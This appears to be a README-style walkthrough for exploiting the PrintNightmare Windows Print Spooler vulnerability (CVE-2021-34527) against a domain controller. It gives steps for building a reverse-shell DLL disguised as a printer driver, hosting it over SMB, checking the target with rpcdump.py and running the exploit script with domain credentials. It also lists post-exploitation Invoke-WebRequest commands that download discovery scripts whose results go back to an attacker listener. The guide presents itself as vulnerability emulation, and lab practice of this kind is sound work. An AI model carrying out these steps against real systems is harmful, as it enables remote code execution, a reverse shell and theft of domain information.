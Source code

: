 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

##Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443

   Steps to create a reverse shell dll: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
'''

